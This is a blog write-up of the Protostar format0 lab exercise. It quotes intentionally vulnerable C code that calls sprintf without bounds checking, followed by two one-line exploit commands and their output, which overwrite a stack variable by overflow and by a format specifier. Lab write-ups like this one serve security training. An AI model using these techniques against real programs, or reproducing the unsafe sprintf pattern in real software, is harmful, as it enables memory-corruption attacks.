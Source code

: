 +++
author = "pwntester"
categories = ["protostar", "format1", "format2", "format3", "format4"]
date = 2013-12-19T17:29:00Z
description = ""
draft = false
slug = "protostar-format0-4-write-ups"
tags = ["protostar", "format1", "format2", "format3", "format4"]
title = "Protostar format0-4 write-ups"

+++

## Format0
In [Format0](http://www.exploit-exercises.com/protostar/format0) we are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);

  if(target == 0xdeadbeef) {
    printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

This is not really a format string vulnerability, our argument is going to be written in **buffer** with no size checks and **buffer** is just above **target** so we can overwrite it:

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/format0 `python -c 'print("A"*64 + "\xef\xbe\xad\xde")'`
you have hit the target correctly :)
```

If we want to do it in a more FormatString fashion:

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/format0 %64d`python -c 'print("\xef\xbe\xad\xde")'`
you have hit the target correctly :)
```
